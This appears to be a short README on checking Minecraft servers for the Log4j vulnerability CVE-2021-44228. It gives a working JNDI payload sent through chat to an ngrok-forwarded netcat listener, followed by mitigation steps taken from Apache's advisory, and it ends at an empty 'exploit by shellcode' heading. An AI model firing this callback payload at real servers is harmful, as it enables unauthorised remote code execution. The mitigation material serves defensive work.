 ## FOR TEST SERVER MINECRAFT RCE(CVE-2021-44228)

### FIRST STEP CHECK VUL
1. Use ngrok to Forwarding<br/>
`./ngrok tcp 4444`<br/>

2. Use netcat to Listening<br/>
`nc -lnvp 4444`<br/>
you'll get like this
<img src="firststep.png" />

3. after that call Log4j in chat minecraft <br/>
`${jndi:ldap://2.tcp.ngrok.io:13517/a}`
<img src="sec.png" />
WOW
<img src="th.png" />

### HOW TO MITIGATE CVE-2021-44228
To mitigate the following options are available (see the advisory from Apache here):

1. Upgrade to Log4j v2.15.0

2. If you are using Log4j v2.10 or above, and cannot upgrade, then set the property:

`log4j2.formatMsgNoLookups=true`

Additionally, an environment variable can be set for these same affected versions:

`LOG4J_FORMAT_MSG_NO_LOOKUPS=true`

3. Or remove the JndiLookup class from the classpath. For example, you can run a command like

`zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class`

### HOW TO EXPLOIT BY SHELLCODE
...
